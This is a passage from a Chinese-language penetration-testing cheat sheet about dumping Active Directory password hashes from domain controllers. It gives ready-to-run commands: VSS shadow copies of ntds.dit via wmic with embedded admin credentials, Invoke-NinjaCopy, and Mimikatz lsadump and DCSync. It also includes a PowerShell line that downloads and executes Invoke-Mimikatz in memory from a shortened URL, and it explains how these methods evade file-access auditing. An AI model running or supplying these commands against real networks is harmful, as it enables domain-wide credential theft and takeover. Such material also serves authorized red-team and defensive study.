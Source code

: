 ```bash
    ntds.dit我们是没法直接进行复制拷贝的,会提示文件已被占用,这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
    a. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:\vss.log"
    当 VSS 快照完成后,我们就可以从 VSS 中将 NTDS.dit 文件和 注册表中的 System hive 复制到域控制器的 C 盘中。

    b1. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\NTDS\NTDS.dit C:\windows\temp\NTDS.dit 2>&1 > c:\vss2.log"
    b2. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\System32\config\SYSTEM C:\windows\temp\SYSTEM.hive 2>&1 > c:\vss2.log"
    之后就可以将域控制器中 c:\\temp 目录的文件复制到本地的计算机中。

    copy /z \\demo.local\c$\windows\temp\NTDS.dit c:\temp
    copy /z \\demo.local\c$\windows\temp\SYSTEM.hive c:\temp
    较新版本的 Windows 中 WMIC 已经有些过时了。 PowerShell 提供了 Invoke-WMIMethod cmdlet 可以执行相同的功能。

8-0x03 使用 PowerSploit 的 Invoke-NinjaCopy 远程读取 ntds.dit(需要目标 DC 启用 PowerShell 远程管理)
    Joe Bialek (@JosephBialek)在他的博客中写了如下关于 Invoke-NinjaCopy 的信息。
    目前,已有好几种方法可以转储 Active Directory 和本地密码的 HASH。
    不过直到最近,我发现目前获取 HASH 的技术,需 要依赖于注入代码到 LSASS 进程或使用 VSS ,以获得含有 HASH 文件的副本。
    Invoke-NinjaCopy 的 PowerShell 脚本,支持任何文件(包括NTDS.DIT)的复制,
    无需启动可疑的服务,无需注入代码到进程中,或者提升到 SYSTEM 权限。
    该脚本可以打开整个卷(如C:)的读取句柄并解析 NTFS 结构,从而从一个 NTFS 卷复制文件。此操作需要目标服务器的管理员权限。利用此脚本可以绕过以下保护措施:
    一个已被进程打开且不能被其他进程操作的文件,如 Ntds.dit 文件或注册表中的 SYSTEM hive 配置文件。
    已被设置 SACL 标志的文件,在打开此类文件时,会有提醒(此脚本没有使用 Win32 API 打开文件,因此Windows 没有反应)。
    绕过 DACL ,例如 DACL 只允许 SYSTEM 权限打开一个文件。
    如果指定了 LocalDestination 参数,则文件将被复制到本地服务器(脚本正在从运行的服务器)中指定的文件路径。
    如果指定了 RemoteDestination 参数,则该文件将被复制到远程服务器中指定的文件路径。
    Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "RDLABDC02" -LocalDestination "c:\temp\ntds.dit"
    使用 DIT 快照查看器(https://github.com/yosqueoy/ditsnap) ,可以验证我们是否顺利拿到了Ntds.dit 文件。

8-0x04 在 DC 中使用 Mimikatz 转储 Active Directory 凭据
    一般情况下服务帐户就是域管理员组或同等权限的成员或者攻击者从域管理员最近登录到的计算机中 dump 出登录凭证。
    使用这些凭据,攻击者可以访问域控制器,并可以得到所有的域凭据,其中包括用于创建 Kerberos 的黄金票证的 KRBTGT 帐户的 NTLM 哈希值。
    1. mimikatz.exe从域控上面抓取到所有账户信息:
    mimikatz lsadump::lsa /inject exit
    保存到mimikatz.log:
    # log
    # privilege::debug
    # lsadump::lsa /inject
    在域控制器上运行时,Active Directory域中转储凭证数据。需要管理员访问调试或本地SYSTEM权限
    注意:RID 502的帐户是KRBTGT帐户,RID 500的帐户是该域的默认管理员。

2. Invoke-Mimikatz本地转储Active Directory凭据
    使用 mimikatz 从 LSASS 进程转储凭证 : Invoke-Mimikatz -DumpCreds
    使用 mimikatz 导出所有私有证书即使它们已被标记为不可导出 : Invoke-Mimikatz –DumpCerts
    在远程计算机上使用 debug 提升权限:Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"
    or Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'

3. 使用 Invoke-Mimikatz 远程转储 Active Directory 凭据 (通过 PowerShell 远程管理)  
    外网下载并完全是在内存中执行代码
    IEX(New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command '"privilege::debug" "LSADump:LSA /inject"' -Computer dc2010.demo.local

8-0x05 使用 Mimikatz 的 DCSync 功能远程转储 Active Directory 凭据
    理解：向 DC 发起同步一个对象（获取帐户的密码数据）的质询。需要域管理员，域管理员组或者自定义委派的一个成员权限。
    2015新的特性—— “DCSync”,可以有效地“假冒”一个域控制器,并可以向目标域控制器请求帐户密码数据。
    之前利用 DCSync 的攻击方法是在域控制器上运行 Mimikatz 或 Invoke-Mimikatz 得到 KRBTGT 账户的密码哈希创建黄金票证。
    如果使用适当的权限执行 Mimikatz 的 DCSync 功能,攻击者就可以通过网络远程读取域控制器的密码哈希,以及以前的密码的哈希,
    且无需交互式登录或复制 Active Directory 的数据库文件NTDS.DIT。

    运行 DCSync 所要求的特殊权限有管理员组Administrators,域管理员组 Domain Admins或企业管理员组Enterprise Admins
    以及域控制器计算机帐户的任何成员都能够运行 DCSync 去读取密码数据。
```